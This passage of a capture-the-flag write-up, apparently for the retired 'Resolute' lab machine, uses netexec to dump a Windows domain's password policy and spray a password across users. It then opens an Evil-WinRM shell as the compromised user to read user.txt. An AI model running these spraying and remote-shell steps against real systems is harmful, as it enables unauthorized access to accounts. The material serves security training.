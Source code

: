 Before doing that, let's find out the password policy, and more specifically, the `Account Lockout Threshold` setting, so we can adapt our attack accordingly.

{% code overflow="wrap" %}
```bash
# getting the password policy
$ nxc smb 10.10.10.169 -u '' -p '' --pass-pol
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\:
SMB         10.10.10.169    445    RESOLUTE         [+] Dumping password info for domain: MEGABANK
SMB         10.10.10.169    445    RESOLUTE         Minimum password length: 7
SMB         10.10.10.169    445    RESOLUTE         Password history length: 24
SMB         10.10.10.169    445    RESOLUTE         Maximum password age: Not Set
SMB         10.10.10.169    445    RESOLUTE
SMB         10.10.10.169    445    RESOLUTE         Password Complexity Flags: 000000
SMB         10.10.10.169    445    RESOLUTE             Domain Refuse Password Change: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password Store Cleartext: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password Lockout Admins: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password No Clear Change: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password No Anon Change: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password Complex: 0
SMB         10.10.10.169    445    RESOLUTE
SMB         10.10.10.169    445    RESOLUTE         Minimum password age: 1 day 4 minutes
SMB         10.10.10.169    445    RESOLUTE         Reset Account Lockout Counter: 30 minutes
SMB         10.10.10.169    445    RESOLUTE         Locked Account Duration: 30 minutes
SMB         10.10.10.169    445    RESOLUTE         Account Lockout Threshold: None
SMB         10.10.10.169    445    RESOLUTE         Forced Log off Time: Not Set

# performing a password spray
$ nxc smb 10.10.10.169 -u domain_users.txt -p marko_pass | grep +
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:********
```
{% endcode %}

It's seem that `melanie` is not like `marko`! We know that WinRM is available, so we can now test if this user has WinRM access.

{% code overflow="wrap" %}
```bash
$ nxc winrm 10.10.10.169 -u melanie -p marko_pass
SMB         10.10.10.169    445    RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:******** (Pwn3d!)
```
{% endcode %}

Next, let's obtain our **initial foothold** and grab the `user.txt` file.

{% code overflow="wrap" %}
```bash
$ evil-winrm -i 10.10.10.169 -u melanie -p $(cat marko_pass)

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> type ..\desktop\user.txt
2cf<REDACTED>029
```
{% endcode %}
